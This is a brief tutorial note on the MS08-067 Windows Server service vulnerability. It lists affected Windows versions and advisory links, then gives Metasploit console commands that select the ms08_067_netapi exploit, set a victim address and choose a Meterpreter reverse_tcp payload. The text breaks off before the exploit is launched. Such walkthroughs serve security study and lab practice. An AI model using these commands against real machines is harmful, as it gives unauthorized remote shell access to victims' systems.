

ms08-067
On October 23 rd , 2008 a Critical Microsoft Security Bulletin (MS08-067) was published admitting a remote code execution in the Server service.
This issue is triggered when a specially crafted RPC request is sent to the victim machine and then, without authentication, an attacker could execute arbitrary code
This vulnerability can be used against(without the firewall active):• Windows 2000
• Windows XP
• Windows Vista
• Windows Server 2003/2008
Description of this vulnerability by Microsoft:
http://technet.microsoft.com/en-us/security/bulletin/ms08-067by SecurityFocus:
http://www.securityfocus.com/bid/31874/infoby MITRE:
http://cve.mitre.org/cgi-bin/cvename.cgi?name=2008-4250use exploit:
use exploit/windows/smb/ms08_067_netapi
info
show options
set RHOST <victimIP>
set payload:
show payloads
set payload windows/meterpreter/reverse_tcp
show options